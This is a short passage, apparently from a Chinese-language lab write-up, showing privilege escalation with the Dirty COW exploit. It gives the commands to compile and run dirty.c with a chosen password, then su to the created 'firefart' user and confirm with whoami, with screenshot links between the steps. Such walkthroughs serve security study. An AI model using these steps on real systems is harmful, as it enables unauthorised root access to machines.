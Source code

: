 上传dirty.c文件

![image-20250603130719402](./assets/image-20250603130719402.png)





```
gcc -pthread dirty.c -o dirty -lcrypt
./dirty 123456
```

![image-20250603130736972](./assets/image-20250603130736972.png)



```
./dirty 123456
```

![image-20250603130748822](./assets/image-20250603130748822.png)



```
su firefart
whoami
```

![image-20250603130758188](./assets/image-20250603130758188.png)